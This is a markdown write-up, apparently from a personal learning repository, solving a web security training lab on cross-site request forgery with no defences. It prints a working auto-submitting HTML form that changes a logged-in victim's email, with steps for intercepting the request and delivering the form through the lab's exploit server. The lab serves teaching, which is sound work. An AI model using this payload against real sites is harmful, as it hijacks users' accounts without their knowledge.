









# Lab 1: CSRF vulnerability with no defenses

## 🎯 **Lab Objective**

> This lab's email change functionality is vulnerable to CSRF.
> 
> 
> To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and **upload it to your exploit server**.
> 

---

## 🔐 **Login Credentials**

Use the following credentials to log in and test:

```
Username: wiener
Password: peter
```

---

## 💡 **Hint**

- You cannot register an email address that is already taken.
- When testing the exploit, use **your own unique email**.
- For the final exploit to work on the victim, **use a new email address** that is not already registered.

---

## 🧠 **Understanding CSRF**

CSRF (Cross-Site Request Forgery) is a vulnerability that **exploits a logged-in user's session** by using their **cookies** to perform unauthorized actions on their account—**without their knowledge or consent**.

---

### 🛠️ **Step 1: Change Your Email**

Log in to the lab with `wiener:peter` and navigate to the **Change Email** functionality.



---

### 🔍 **Step 2: Analyze the Request Using Burp Suite**

Intercept the email change request in **Burp Suite** and observe the structure.







---

### 🧪 **Step 3: Create the CSRF Payload**

Craft the following HTML payload to exploit the vulnerability:

```html
<form method="POST" action="https://0aa20008035717ac82d92962005f0061.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="hacked@test.net">
</form>
<script>
        document.forms[0].submit();
</script>

```

This HTML form targets the email change endpoint and auto-submits upon page load.



---

### 👨‍💻 **Step 4: Simulate the Attack**

- Save the above code to an `.html` file
- Open it in your **browser** while logged in
- Observe how the email gets changed without any user interaction
    
    
    
    
    

This simulates a real CSRF attack where an attacker tricks a logged-in user into visiting a malicious page.

---

### 🌐 **Step 5: Deliver the Exploit via the Exploit Server**

To complete the lab:

1. Go to the **Exploit Server** provided by the lab
2. Paste your HTML payload into the **"Body"** section
3. Click **“Send exploit to victim”**
    
    
    

Once the lab triggers the victim’s session to open your payload, their email will be changed.

---

### ✅ **Result**

Your CSRF attack successfully changed the user's email, confirming the vulnerability and completing the lab challenge.



## **🫂Community solutions**

> [**https://youtu.be/7Fs8DTITkoE](https://youtu.be/7Fs8DTITkoE)
[https://youtu.be/NtggatbBetU](https://youtu.be/NtggatbBetU)**
>